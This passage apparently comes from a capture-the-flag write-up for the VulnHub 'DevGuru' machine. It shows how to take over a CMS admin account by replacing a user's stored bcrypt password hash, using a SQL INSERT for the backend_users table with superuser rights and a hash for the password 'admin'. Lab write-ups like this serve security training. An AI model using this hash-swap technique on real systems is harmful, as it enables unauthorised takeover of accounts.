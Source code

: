 [![](/assets/images/vulnhub/devguru/img3.png)](/assets/images/vulnhub/devguru/img3.png)

- Old hash (just in case we need it)

```text
$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK
```

## So can we change the hash to something we know:

```sql
INSERT INTO `backend_users` (`id`, `first_name`, `last_name`, `login`, `email`, `password`, `activation_code`, `persist_code`, `reset_password_code`, `permissions`, `is_activated`, `activated_at`, `last_login`, `created_at`, `updated_at`) VALUES
(1, 'Admin', 'Person', 'admin', 'admin@domain.tld', '$2y$10$VOrmqckzw7JoQXsqUxB0mO65d3m.vwrkXlmzcktEaKAccqwnY/JF6', NULL, NULL, NULL, '{"superuser":1}', 1, NULL, NULL, '2015-05-08 07:55:26', '2015-05-08 07:55:26');

INSERT INTO `backend_users_groups` (`user_id`, `user_group_id`) VALUES
(1, 1);

INSERT INTO `backend_user_groups` (`id`, `name`, `permissions`, `created_at`, `updated_at`, `code`, `description`, `is_new_user_default`) VALUES
(1, 'Admins', NULL, '2015-05-08 07:55:25', '2015-05-08 07:55:25', 'admins', 'Default group for administrators', 1);
```

 - insert this into the field for Frank:
 - (admin) is the password

```text
$2y$10$VOrmqckzw7JoQXsqUxB0mO65d3m.vwrkXlmzcktEaKAccqwnY/JF6
```

